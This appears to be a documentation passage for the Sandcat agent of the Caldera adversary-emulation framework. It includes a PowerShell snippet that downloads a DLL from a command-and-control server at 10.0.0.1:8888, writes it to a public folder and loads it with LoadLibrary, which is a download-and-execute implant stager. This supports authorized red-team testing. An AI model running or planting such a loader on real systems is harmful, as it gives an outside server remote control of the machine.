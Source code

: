 - Execute Sandcat by loading the DLL using the `LoadLibrary` Windows API through P/Invoke. Agent will connect to `http://10.0.0.1:8888`
```PowerShell
$server="http://10.0.0.1:8888";
$url="$server/file/download";
$wc=New-Object System.Net.WebClient;
$wc.Headers.add("platform","windows");
$wc.Headers.add("file","shared.go");
$wc.Headers.add("server","$server");
$wc.Headers.add("runOnInit","true");
$data=$wc.DownloadData($url);
[io.file]::WriteAllBytes("C:\Users\Public\sandcat.dll",$data) | Out-Null;
Add-Type -TypeDefinition @"
    using System;
    using System.Runtime.InteropServices;

    public static class Kernel32 {
        [DllImport("Kernel32", SetLastError=true, CharSet = CharSet.Ansi)]
        public static extern IntPtr LoadLibrary([MarshalAs(UnmanagedType.LPStr)]string lpFileName);

        [DllImport("Kernel32", SetLastError=true)]
        public static extern bool FreeLibrary(IntPtr hModule);
    }
"@;
$handle = [Kernel32]::LoadLibrary("C:\Users\Public\sandcat.dll");
```
  - Once finished, you can free the library handle using `[Kernel32]::FreeLibrary($handle)`

### Build Dependencies
If running Caldera on a Linux system, cross-compiling Sandcat as a Windows DLL requires the following dependencies in addition to Golang:
- `x86_64-w64-mingw32-gcc` - can typically be installed as part of the `gcc-mingw-w64-x86-64` apt package (e.g. `sudo apt install gcc-mingw-w64-x86-64`)
